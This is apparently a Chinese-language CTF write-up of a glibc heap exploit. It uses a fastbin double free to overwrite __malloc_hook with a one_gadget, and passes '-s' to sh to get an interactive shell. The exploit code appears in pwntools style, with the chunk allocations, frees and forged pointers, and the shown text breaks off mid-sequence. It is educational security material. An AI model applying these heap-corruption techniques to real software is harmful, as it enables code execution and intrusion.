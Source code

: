![](https://static.hack1s.fun/images/2021/04/01/image-20210401195356330.png)

搜索出来这三个结果

在`__malloc_hook`下断点，之后触发 malloc，看这时的寄存器状态

![](https://static.hack1s.fun/images/2021/04/01/image-20210401201516901.png)

结果这三个 gadget 的约束条件都不满足；

但是回来看到

![](https://static.hack1s.fun/images/2021/04/01/image-20210401203548451.png)

执行时 rsp+50 的位置是可控的

现在我们最后一小部分的代码是

```
malloc(0x58,p64(libc.sym.main_arena+32))

malloc(0x58,"G"*8)
malloc(0x58,"H"*8)

malloc(0x58,b"Y"*48+p64(libc.sym.__malloc_hook-36))                                                                                                                                 
malloc(0x28,b"Z"*20+p64(libc.address+one_gadget))

```

直接执行的话会提示

![](https://static.hack1s.fun/images/2021/04/01/image-20210401205651104.png)

就是说把其中`HHHHHHHH:GGGGGGGG`这个当作文件来传入 sh 了

这个位置正好是调用`sh`的`arg[1]`，解决办法的话，我们可以将其中的`GGGGGGGG`改为`-s\0`

这样就相当于是调用了`sh -s`，

看一下 bash 的手册

```
If the -s option is present, or if no arguments remain after option processing, then commands are read from the standard input.  This option allows the positional parameters to be set when invoking an  interactive  shell  or when reading input through a pipe.

```

所以加上`-s`之后调用时就不会从文件定位而是从 stdin 输入了；

这样就可以拿到一个 shell 权限

最终执行的流程

```
one_gadget = 0xe1fa1
#  one_gadget = 0xe1fad
#  one_gadget = 0xc4dbf

# Request two 0x50-sized chunks.
chunk_A = malloc(0x48, "A"*8)
chunk_B = malloc(0x48, "B"*8)

# Free the first chunk, then the second.
free(chunk_A)
free(chunk_B)
free(chunk_A)

malloc(0x48,p64(0x61))
malloc(0x48,"C"*8)
```